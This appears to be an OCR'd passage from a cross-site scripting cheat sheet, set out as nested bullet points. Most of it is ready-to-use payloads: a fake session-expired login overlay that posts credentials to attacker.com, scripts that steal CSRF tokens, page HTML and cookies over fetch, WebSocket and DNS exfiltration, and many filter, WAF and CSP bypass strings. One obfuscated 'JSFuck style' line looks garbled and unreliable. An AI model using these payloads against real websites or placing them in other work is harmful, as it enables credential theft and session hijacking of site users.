   - **Phishing**
    - Fake login forms: `<div style="position:absolute;top:0;left:0;width:100%;height:100%;background:white;z-index:1000"><h3>Session expired. Please log in again.</h3><form action="https://attacker.com/steal"><input name="username" placeholder="Username"><input name="password" placeholder="Password" type="password"><button>Login</button></form></div>`
    - Redirects: `<script>window.location='https://evil-site.com/fake-login'</script>`

  - **Content Extraction**
    - CSRF token theft: `<script>fetch('/account').then(r=>r.text()).then(t=>{let match=t.match(/csrf_token value="([^"]+)"/);if(match)fetch('https://attacker.com/steal?token='+match[1])})</script>`
    - Page scraping: `<script>fetch('https://attacker.com/steal',{method:'POST',body:document.documentElement.outerHTML})</script>`

  - **Advanced Exfiltration**
    - WebSockets: `<script>let ws=new WebSocket('wss://attacker.com');ws.onopen=()=>ws.send(document.cookie)</script>`
    - DNS exfiltration: `<script>([...document.cookie].map((c,i)=>fetch('https://'+c+'.'+i+'.attacker.com/'))).catch(()=>{})</script>`
    - Blind XSS frameworks (like XSSHunter)

- **Bypassing XSS Filters**
  - **Tag Bypasses**
    - Case variation: `<ScRiPt>alert(1)</sCrIpT>`
    - Alternate tags: `<img src=x onerror=alert(1)>`, `<svg onload=alert(1)>`
    - Non-standard tags: `<a href="javascript:alert(1)">Click me</a>`
    - Event handlers: `onmouseover`, `onerror`, `onload`, `onfocus`

  - **Script Content Bypasses**
    - String encoding:
      - HTML entities: `&lt;script&gt;alert(1)&lt;/script&gt;`
      - URL encoding: `%3Cscript%3Ealert(1)%3C/script%3E`
      - Unicode encoding: `\u003Cscript\u003Ealert(1)\u003C/script\u003E`
      - Hex encoding: `\x3Cscript\x3Ealert(1)\x3C/script\x3E`
    - Obfuscation:
      - String splitting: `<script>a='al';b='ert';eval(a+b+'(1)')</script>`
      - fromCharCode: `<script>String.fromCharCode(97,108,101,114,116,40,49,41)</script>`
      - Base64: `<script>eval(atob('YWxlcnQoMSk='))</script>`

  - **WAF Bypass Techniques**
    - Nested expressions: `<scr<script>ipt>alert(1)</scr</script>ipt>`
    - Double encoding: `%253Cscript%253Ealert(1)%253C/script%253E`
    - Alternative expressions:
      - `<script>top["al"+"ert"](1)</script>`
      - `<script>([,ウ,,,,ア]=[]+{},[ネ,ホ,ヌ,セ,,ミ]=!_+!1+!0,ウ=ウ[ネ+ホ+ヌ+セ]+ウ,ミ=ミ[ネ+ホ+ヌ+セ]+ミ,エ=ウ[0]+ウ[1]+ウ[2]+ウ[3],ス=ミ[5]+ミ[6],ホ=([]+[ウ[ネ+ホ+セ]])[10],ア[エ+ス](ホ)()</script>` (JSFuck style)
    - Protocol handlers: `<a href="j&#97;v&#97;script&#x3A;&#97;lert(1)">Click</a>`
    - CSS injection: `<div style="background-image:url(javascript:alert(1))">`

- **Content Security Policy (CSP) Bypasses**
  - **CSP Understanding**
    - Check for policy: `curl -I https://target.com | grep Content-Security-Policy`
    - Analyze policy directives: `script-src`, `object-src`, `base-uri`, etc.
    - Look for unsafe directives: `unsafe-inline`, `unsafe-eval`
